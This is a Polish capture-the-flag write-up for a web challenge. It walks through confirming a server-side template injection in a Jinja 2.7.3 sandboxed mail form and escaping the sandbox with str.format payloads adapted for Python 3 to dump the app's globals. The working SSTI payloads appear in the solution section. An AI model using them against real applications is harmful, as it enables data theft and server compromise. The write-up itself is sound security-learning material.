

# Różdżka chaosu, List do sołtysa, web

## Opis
"Szukając właściwego adresu, każdy strudzony kurier prędzej czy później trafi do sołtysa. Skoro nadal z mozołem szukasz różdżki chaosu, może warto napisać wiadomość do administratora gry?"

## Rozwiązanie

Treść zadania sugeruje odwiedzenie skrzynki mailowej. Wchodzimy na stronę i widzimy interesującą informację: "Linki automatycznie zamieniane są na klikalne. Możesz używać poniższych znaczników BBCode oraz dodatkowo struktur kontrolnych Jinja 2.7.3" co może sugerować Server Side Template Injection.


Wysyłając w treści `{{7*'7'}}` ukazuje się nam następujący widok:


Czyli mamy tutaj podatność SSTI. Ponownie korzystamy z mechanizmu podglądu kodu źródłowego strony i otrzymujemy:
```py
import jinja2, jinja2.sandbox
import smtplib, ssl
from .exceptions import *
from app import app

def send_mail(receiver, subject, body):
    return render_template(body)

def render_template(body):
    try:
        sandboxed_env = jinja2.sandbox.SandboxedEnvironment()
        template = sandboxed_env.from_string(body).render()
    except (jinja2.TemplateSyntaxError, jinja2.sandbox.SecurityError) as err:
        app.logger.error('Sandbox error:\n' + str(err))
        raise TemplateProblem("Template error")
    return template
```

Jak widzimy, treść maila trafia do Sandboxu, a potem jest renderowana. To czas, żeby poszukać podatności, które pozwolą na wyskoczenie z sandboxu. Po długim researchu natrafiłem na informację, że ta wersja Jinja (2.7.3) jest podatna na Sandbox Escape za pomocą str.format. Spróbujmy tego triku - jako payload podajemy `{{ '{0.__class__.__mro__}'.format('a') }}` i dostajemy w odpowiedzi:


W planach było wywołanie `__subclasses__()`, ale nie da się wywołać funkcji wewnątrz format stringa :(

Po jeszcze dłuższym researchu trafiłem na artykuł sekuraka: [https://sekurak.pl/podatnosc-server-side-template-injections/](https://sekurak.pl/podatnosc-server-side-template-injections/)
Przytoczony jest tam interesujący payload

```py
{{ "{.func_globals[_mutable_sequence_types][1].insert.__func__.func_globals[sys].modules[__main__].SUPER_SECRET_DB_PASSWORD}".format(range) }}
```

Podczas lokalnych testów [task.py](./task.py) okazało się, że `__func__` nie istnieje w pythonie 3. Dlatego też payload został dostosowany i finalnie wygląda tak:

```py
{{ '{.__globals__[_mutable_sequence_types][1].insert.__globals__[sys].modules[__main__].__dict__}'.format(range) }}
```
co w efekcie daje:




